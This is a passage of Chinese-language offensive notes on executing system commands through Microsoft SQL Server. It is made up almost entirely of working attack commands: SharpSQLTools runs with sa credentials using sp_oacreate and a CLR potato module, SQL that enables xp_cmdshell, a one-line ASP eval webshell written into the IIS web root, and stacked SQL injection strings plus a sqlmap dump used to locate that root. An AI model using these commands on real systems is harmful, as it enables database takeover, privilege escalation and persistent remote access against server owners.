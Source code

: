 SharpSQLTools利用sp_oacreate执行系统命令

```
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master enable_ole
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master sp_oacreate whoami
```

### 本地存储过程

本地存储过程指用户创建的自定义存储过程。sql server集成了CLR组件，可以通过sql server编写CLR来执行系统命令

SharpSQLTools利用CLR执行系统命令

```
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master install_clr  #安装组件
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master enable_clr  #开启组件
SharpSQLTools.exe 192.168.172.140 sa ICQsafe666 master clr_efspotato whoami  #利用组件执行系统命令
```

### 扩展存储过程

扩展存储过程主要使用外部程序语言编写的存储过程。如：xp_cmdshell直接利用其执行命令

利用xp_cmdshell执行系统命令

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;   #启用xp_cmdshell
exec master..xp_cmdshell 'whoami'
```

利用xp_cmdshell写webshell到根目录

```
exec master..xp_cmdshell 'where /r c:\ *.asp'  #通过asp文件查询web根目录路径
exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp'
```

> windows系统中，^号为转义符号

- PS：获取网站根目录方式

  ```
  无回显
  ##在数据库tempdb下创建临时表temp_db,字段test
  ;use tempdb;create table temp_db (test varchar(1000)); --
  
  ##查找网站文件并把结果写入到test表中
  ;use tempdb;insert into temp_db(test) exec master..xp_cmdshell 'dir /s /b C:\search.asp';--
  
  ##用sqlmap得到表test的内容:
  python2 sqlmap.py -r 1.txt --dbms="Microsoft SQL Server" --technique=E  -D "tempdb" -T "temp_db" -C "test" --dump
  
  ##手工读取temp_db表内容
  and 1=(select top 1 * from tempdb..temp_db where test=1 FOR XML PATH(''))--
  ```
